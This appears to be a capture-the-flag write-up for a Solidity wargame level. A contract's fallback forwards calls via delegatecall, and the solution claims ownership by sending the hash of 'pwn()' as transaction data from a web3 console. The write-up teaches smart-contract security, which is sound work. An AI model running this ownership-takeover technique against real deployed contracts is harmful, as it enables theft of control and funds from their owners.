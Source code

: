 # Challenge 6

<img src="./images/BigLevel6.svg" alt="6" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Challenge
---
> The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

  - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
  - Fallback methods
  - Method ids


1. `delegatecall` - `delegatecall` is similar to `call`, is a low level function in `Solidity`. `delegate` meas entrust/represent, so what does `delegatecall`entrust?

When user `A` `delegatecall` contract `C` via contract `B`, the executed functions are from contract `C`, the `execution context` is in contract `B`: `msg.sender` is user `A`'s address, and if state variables are changed due to function call, the affected state variables are in contract `B`.

2. Method Ids - This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature functionName() iif any parameter then functionName(ValueType) and if more saprate the by commma.

Solution
---

1. open the terminal and get the `pwn()` for `msg.data`.
```js
await web3.utils.sha3("pwn()");
// you will see this 0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab
```

and now copy this hash and 
```js
await contract.sendTransaction({data:"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})
```

after  that check the contract owner()
```js
await contract.owner()
```
You will see your EOA (Externally Owned Account) address and submit the instance your challenge will be cleared. 🎉
